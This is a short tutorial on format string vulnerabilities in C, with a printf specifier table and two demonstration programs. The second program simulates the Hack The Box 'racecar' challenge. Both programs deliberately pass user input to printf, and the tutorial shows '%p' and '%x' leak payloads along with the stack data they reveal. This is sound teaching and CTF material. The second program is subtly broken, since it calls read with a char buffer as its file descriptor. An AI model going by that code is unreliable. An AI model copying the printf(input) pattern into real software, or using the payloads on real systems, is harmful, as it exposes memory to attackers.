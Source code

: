 # Format String Vulnerability
A **format string vulnerability** is a bug where user input is passed as the format argument to `printf`, `scanf`, or another function in that family.

The format argument has many different specifiers which could allow an attacker to leak data if they control the format argument to `printf`. Since `printf` and similar are variadic functions, they will continue popping data off of the stack according to the format.

# Common Parameters
| Parameters | Output                                   | Passed as  |
|------------|------------------------------------------|------------|
| %%         | % character (literal)                   | Reference  |
| %p         | External representation of a pointer    | Reference  |
| %d         | Decimal                                  | Value      |
| %c         | Character                                |            |
| %u         | Unsigned decimal                         | Value      |
| %x         | Hexadecimal                              | Value      |
| %s         | String                                   | Reference  |
| %n         | Writes the number of characters  into a pointer  | Reference  |

# Example #1
In the example below, we can see that we have control over the `password` variable, which will be printed by `printf`.      
We could use `%p` to write out the pointer addresses.
```c
#include <stdio.h>
#include <unistd.h>

int main(){
    int flag = 0xcafebabe;

    char password[256] = {0};
    read(0, password, 256);

    printf(password);
    printf("End of main!\n");

    return 0;
}
```
But as seen in the **output** below, since the flag is stored on the stack it will print it regardless.
```
%p %p %p %p %p %p %p %p %p
0x7fff120059d0 0x100 0x76d74d5147e2 0x76d74d61bf10 0x76d74d6c6040 0x2 0xcafebabe0000000e 0x7025207025207025 0x2520702520702520
End of main!
```

# Example #2
This is a code to simulate the Hack The Box [racecar](https://app.hackthebox.com/challenges/racecar) challenge.       

In short, the code:
1. Loads *flag.txt* as `file`
2. Puts contents of `file` into `data_from_file`
3. Puts `data_from_file` onto the stack -- `buffer`
4. Asks for an input -- `password`
5. Outputs are shown and the program halts

In the actual challenge the flag was in the file and its contents were put onto the stack.

For this example *flag.txt* contains "*AAAAAA*"

```c
#include <stdio.h>

int main() {
    char password[256] = {0};
    char data_from_file[256];
    char buffer[44];

    FILE* file = fopen("flag.txt", "r");
    if (file == NULL) {
        perror("Failed to open file");
        return 1;
    }
    read(data_from_file, 1, 256); 

    fgets(buffer, 44, file);

    read(0, password, 256);
    printf(password); 

    printf("End of main!\n");

    return 0;
}
```

To leak the offset of `buffer` we did the following:
```
%x %x %x %x %x %x %x %x %x  %x
7d6a3130 100 507147e2 3 1bb8b480 0 1bb8b2a0 41414141 0  ff00
```
We could now read the *A*s in hex format *(0x41)* and can note that they start at offset 8.

*The challenge was a bit more complex, this is just for demonstration purposes*

# References
- [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)
- [https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)